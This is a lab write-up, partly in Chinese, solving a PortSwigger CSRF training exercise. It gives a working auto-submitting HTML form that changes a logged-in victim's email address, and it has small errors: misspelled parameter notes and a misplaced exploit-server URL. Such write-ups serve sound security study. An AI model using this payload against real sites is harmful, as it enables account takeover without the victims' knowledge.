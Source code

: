 # CSRF vulnerability with no defenses

## Information
---

- [PortSwigger - Lab: CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter 

## Solution
---

- [CSRF PoC Generator](https://security.love/CSRF-PoC-Genorator/)
    - Method: POST
    - Data: enail=H4ck@emaple.com
    - URL: https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email): 特別注意Lab 的 URL 以 ID 為其中部分。
    ```html
    <html>
    <form enctype="application/x-www-form-urlencoded" method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"><table><tr><td>email</td><td><input type="text" value="H4ck@example.com" name="email"></td></tr></table><input type="submit" value="https://exploit-0ab8005e04546ccec0918f2901080044.exploit-server.net/exploit">
    </form>
    <script>
            document.forms[0].submit();
    </script>
    </html>
    ```